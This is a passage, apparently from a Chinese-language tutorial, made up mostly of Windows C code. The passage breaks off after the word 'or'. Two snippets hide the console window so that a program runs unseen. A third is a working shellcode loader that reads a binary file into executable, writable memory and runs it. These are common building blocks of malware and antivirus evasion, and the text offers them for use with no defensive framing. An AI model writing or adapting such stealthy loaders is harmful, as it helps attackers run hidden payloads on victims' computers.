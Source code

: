 
 **API实现**

    
    
     #include<windows.h>  
    void HideWindow() {  
    	HWND hwnd = GetForegroundWindow();  
    	if (hwnd) {  
    		ShowWindow(hwnd, SW_HIDE);  
    	}  
    }  
      
    int main()  
    {  
    	HideWindow();  
    	int a = 10;  
    	return 0;  
    }  
    
    
    
    #include<windows.h>  
    int main()  
    {  
    	FreeConsole();  
    	int a = 10;  
    	return 0;  
    }  
    

### 常规读文件loader

    
    
    #include <stdio.h>  
    #include <Windows.h>  
    #include <stdlib.h>  
    #include<string.h>  
      
    int main(int argc, char* argv[])  
    {  
                FILE* file = NULL;  
                char path[] = "loader.bin";  
                fopen_s(&file, path, "rb");  
                fseek(file, 0, SEEK_END);  
                int filelen = ftell(file);  
                fseek(file, 0, SEEK_SET);  
                char* buf = (char*)VirtualAlloc(NULL, filelen, MEM_COMMIT, PAGE_EXECUTE_READWRITE);  
                fread(buf, 1, filelen, file);  
                void* p;  
                ((void(*)())buf)();  
        return 0;  
    }  
    

或者
